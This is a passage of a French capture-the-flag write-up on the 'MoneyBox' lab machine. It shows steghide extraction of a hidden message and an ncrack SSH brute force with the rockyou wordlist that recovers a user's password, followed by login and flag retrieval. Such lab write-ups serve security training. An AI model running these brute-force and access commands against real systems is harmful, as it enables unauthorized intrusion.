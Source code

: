 Ce dossier `S3cr3t-T3xt` présent à la racine, contient un autre commentaire HTML avec un mot de passe :

```html
<!..Secret Key 3xtr4ctd4t4 >
```

Pas de nom d'utilisateur, un mot de passe, une image... C'est l'heure de `stegoveritas` :

```console
$ docker run -v /tmp:/data -it --rm bannsec/stegoveritas
(stegoveritas_venv) stegoveritas@0c89221a657b:~$ steghide extract -sf /data/trytofind.jpg -p 3xtr4ctd4t4     
wrote extracted data to "data.txt".
(stegoveritas_venv) stegoveritas@0c89221a657b:~$ cat data.txt 
Hello.....  renu

      I tell you something Important.Your Password is too Week So Change Your Password
Don't Underestimate it.......
```

Bonne pioche !

### Passe-Partout

On s'empresse donc de brute forcer le compte `renu`, ici avec `Ncrack` :

```console
$ ncrack -v -u renu -P wordlists/rockyou.txt ssh://192.168.56.111

Starting Ncrack 0.8 ( http://ncrack.org )

Stats: 0:00:39 elapsed; 0 services completed (1 total)
Rate: 0.00; Found: 0; About 0.00% done
Discovered credentials on ssh://192.168.56.111:22 'renu' '987654321'
Stats: 0:00:51 elapsed; 0 services completed (1 total)
Rate: 0.00; Found: 1; About 0.00% done
(press 'p' to list discovered credentials)
```

On obtient le premier flag. L'utilisateur n'a pas de permissions `sudo` mais son historique bash n'est pas vide, ce qui est rare sur un CTF.

```console
$ ssh renu@192.168.56.111
renu@192.168.56.111's password: 
Linux MoneyBox 4.19.0-14-amd64 #1 SMP Debian 4.19.171-2 (2021-01-30) x86_64

Last login: Fri Feb 26 08:53:43 2021 from 192.168.43.44
renu@MoneyBox:~$ id
uid=1001(renu) gid=1001(renu) groups=1001(renu)
renu@MoneyBox:~$ sudo -l
[sudo] password for renu: 
Sorry, user renu may not run sudo on MoneyBox.
renu@MoneyBox:~$ ls -al
total 40
drwxr-xr-x 5 renu renu 4096 Feb 26  2021 .
drwxr-xr-x 4 root root 4096 Feb 26  2021 ..
-rw------- 1 renu renu  642 Feb 26  2021 .bash_history
-rw-r--r-- 1 renu renu  220 Apr 17  2019 .bash_logout
-rw-r--r-- 1 renu renu 3526 Apr 17  2019 .bashrc
drwxr-xr-x 3 root root 4096 Feb 26  2021 ftp
drwxr-xr-x 3 renu renu 4096 Feb 26  2021 .local
-rw-r--r-- 1 renu renu  807 Apr 17  2019 .profile
drwx------ 2 renu renu 4096 Feb 26  2021 .ssh
-rw-r--r-- 1 renu renu   64 Feb 26  2021 user1.txt
renu@MoneyBox:~$ cat user1.txt 
Yes...!
```